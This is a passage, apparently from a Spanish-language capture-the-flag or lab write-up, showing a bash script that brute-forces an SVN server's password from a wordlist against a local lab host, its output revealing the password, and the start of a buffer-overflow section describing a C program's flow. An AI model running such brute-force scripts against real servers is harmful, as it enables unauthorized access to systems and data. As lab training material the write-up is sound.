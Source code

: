 ```bash
fi


intentos=0
lineas=$(wc -l $wordlist | awk '{print $1}')


host="svn://$ip/subversion"
while read -r pass; do
    intentos=$(($intentos+1))
    svn checkout $host --username "svnuser" --password "$pass" &>/dev/null
    if [ $? -eq 0 ]; then
        echo "Contraseña: $pass"
        exit
    fi
    echo -ne "$intentos/$lineas\r"
done < "$wordlist"
```

y lo ejecutamos:

```css
bash force.sh <WORDLIST> 172.17.0.2
```

```css
Contraseña: iloveyou!
```

perfecto, ya tenemos la contraseña: "iloveyou!"

Cuando el script termine, nos dejará el repositorio en el mismo directorio.

Dentro del repositorio, podremos ver dos archivos:

```css
subversion
subversion.c
```

# Intrusión

### Buffer Overflow

Si vemos el codigo en C, podremos ver el siguiente flujo:

```css
1. El programa comienza mostrando un mensaje de bienvenida y luego hace preguntas al usuario

2. Si el usuario responde correctamente todas las preguntas, se genera un número aleatorio y el usuario debe adivinarlo

3. Si adivina el número correctamente, se le pide que ingrese un "texto mágico", y luego se muestra lo que escribió

4. Las respuestas del usuario son normalizadas (se eliminan espacios, saltos de línea, y se convierten a minúsculas)

5. Si alguna respuesta es incorrecta, el programa termina mostrando un mensaje de error
```
